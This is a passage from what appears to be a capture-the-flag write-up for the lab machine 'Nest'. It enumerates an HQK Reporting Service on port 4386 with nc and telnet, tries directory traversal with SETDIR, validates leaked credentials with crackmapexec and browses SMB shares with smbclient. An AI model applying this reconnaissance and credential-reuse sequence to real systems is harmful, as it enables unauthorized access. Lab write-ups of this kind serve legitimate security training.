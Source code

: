 ```bash
nc 10.10.10.178 4386

telnet 10.10.10.178 4386
  HELP
# This service allows users to run queries against databases using the legacy HQK format
  LIST
  HELP RUNQUERY
  RUNQUERY 1
# ?
  HELP SETDIR
  HELP LIST
  SETDIR \
  LIST
# :)
  SETDIR TempUser
  SETDIR Administrator
# Error: Access to the path ... is denied.
```

<br />
<img src="{{ site.img_path }}/nest_writeup/Nest_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nest_writeup/Nest_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nest_writeup/Nest_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nest_writeup/Nest_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nest_writeup/Nest_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I remember that I have credentials for a temporary account and there is a directory on the file system linked to it, so I was able to validate it with `crackmapexec` and then connect to the **HQK Reporting Service** to further enumerate the system. There is a very interesting **DEBUG** command to investigate, but the password that I have is not the right one to enable this functionality. With `smbclient` I can access the **TempUser** account directory, where I find and immediately download a text document that has **no content**. But even if I'm authenticated I do not have permission to upload files to the machine remotely.

```bash
cat Welcome\ Email.txt
crackmapexec smb 10.10.10.178 -u TempUser -p welcome2019
telnet 10.10.10.178 4386
  HELP
  DEBUG welcome2019

smbclient //10.10.10.178/Users -U HTB-NEST/TempUser%welcome2019
  dir
  cd Administrator
  dir

  cd ..\TempUser
  dir
  prompt off
  mget "New Text Document.txt"

ls
cat New\ Text\ Document.txt

echo 'oldboy was here' > test.txt
smbclient //10.10.10.178/Users -U HTB-NEST/TempUser%welcome2019
```
